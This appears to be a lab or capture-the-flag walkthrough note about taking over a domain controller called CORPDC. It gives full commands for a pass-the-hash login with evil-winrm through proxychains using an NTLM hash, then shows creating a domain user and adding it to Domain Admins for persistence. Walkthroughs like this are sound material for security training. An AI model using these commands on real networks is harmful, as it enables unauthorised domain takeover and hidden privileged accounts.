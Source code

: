 
$ `proxychains4 /usr/bin/evil-winrm -u Administrator -H d3d4edcc015856e386074795aea86b3e -i 10.200.113.102`

![[Connect CORPDC with evil-winrm-20240711134443095.webp]]

You'll get a shell.  
Check out the hostname.

Evil-WinRM PS C:\Users\Administrator\Documents> `hostname`

![[Connect CORPDC with evil-winrm-20240711134533300.webp]]

### Create a new user as an Administrator

Evil-WinRM* PS C:\Users\Administrator\Documents> `net user kairos K41r@s123 /add /domain`

Username: kairos  
Password: K41r@s123

### Enumerate the groups to find the group name for the Administrator user

Evil-WinRM* PS C:\Users\Administrator\Documents> `net group`

![[Connect CORPDC with evil-winrm-20240711134633470.webp]]

### Add the new user to this group to make him the `Domain Admin`.

Evil-WinRM* PS C:\Users\Administrator\Documents> `net group "Domain Admins" kairos /add /domain`

### Display user's information

The `net user` command is a Windows command-line utility that can be used to display or modify user account information. The `/domain` switch is used with `net user` to specify that the operation should be performed on a domain controller, allowing you to view or change user account information in a domain environment.

Evil-WinRM* PS C:\Users\Administrator\Documents> `net user kairos /domain`

![[Connect CORPDC with evil-winrm-20240711134239749.webp]]

**Next step:** [[RDP to CORPDC]]
